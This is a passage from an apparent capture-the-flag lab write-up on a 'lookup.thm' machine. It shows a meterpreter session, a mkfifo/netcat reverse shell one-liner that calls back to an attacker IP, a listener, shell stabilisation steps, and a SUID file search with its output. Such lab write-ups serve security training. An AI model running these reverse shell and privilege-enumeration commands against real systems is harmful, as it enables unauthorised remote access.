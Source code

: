 Let's set the options and exploit to have a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) :

```
meterpreter > 
```

### Shell Stabilization

Now that we have a meterpreter connection, we can get the [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) by typing the command `shell` but this shell is unstable so let's do some [Shell Stabilization](../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) after transfered it to our machine :

- On the unstable shell `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.8.162.183 4444 >/tmp/f`
- On attacking system `nc -lvnp 4444`  [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
┌──(hax㉿HaxonKali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.181.47] 60502
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html/elFinder/php$ ls

```

Now stabilize :

```
www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ export TERM=xterm

www-data@ip-10-10-181-47:/var/www/files.lookup.thm/public_html$ ^Z

zsh: suspended  nc -lvnp 4444

┌──(hax㉿HaxonKali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               reset

```

Once we have a stable shell let’s check what are the processes that can be run as sudo user `find / -type f -perm -u=s -ls 2>/dev/null` :

```
www-data@ip-10-10-181-47:/home/think$ find / -type f -perm -u=s -ls 2>/dev/null
      297    129 -rwsr-xr-x   1 root     root       131832 May 27  2023 /snap/snapd/19457/usr/lib/snapd/snap-confine
      847     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /snap/core20/1950/usr/bin/chfn
      853     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /snap/core20/1950/usr/bin/chsh
      922     87 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /snap/core20/1950/usr/bin/gpasswd
     1006     55 -rwsr-xr-x   1 root     root        55528 May 30  2023 /snap/core20/1950/usr/bin/mount
     1015     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /snap/core20/1950/usr/bin/newgrp
     1030     67 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /snap/core20/1950/usr/bin/passwd
```